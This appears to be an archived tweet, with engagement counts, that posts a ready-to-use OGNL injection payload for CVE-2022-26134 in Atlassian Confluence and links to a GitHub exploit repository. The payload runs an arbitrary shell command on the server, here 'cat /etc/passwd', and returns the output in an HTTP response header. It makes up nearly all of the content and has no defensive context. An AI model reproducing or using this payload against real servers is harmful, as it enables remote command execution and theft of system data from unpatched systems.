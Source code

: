 <table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>10</code></td>
<td>Favorites: <code>35</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1533699386542534662 _at 2022-06-06, 06:36:43_**
<blockquote>
CVE-2022-26134 Atlassian

${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("cat /etc/passwd").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}

https://t.co/nrwWLejKgW https://t.co/YO1WzL9MJV
</blockquote>

* https://github.com/Nwqda/CVE-2022-26134?fbclid=IwAR0tZiWJjBJHu5slC4ZUfGK00Bew8tbp2xCLrQvD0uZjkPLOvFUvzhmWtbE

<table><tr>
<td><img src="pictures/ed060eafa1ef2855c2f0b7732fc47e3d18fae4c893f54013c000e2ecb5fe5231.jpg" alt="ed060eafa1ef2855c2f0b7732fc47e3d18fae4c893f54013c000e2ecb5fe5231.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>55</code></td>
</tr></table>

---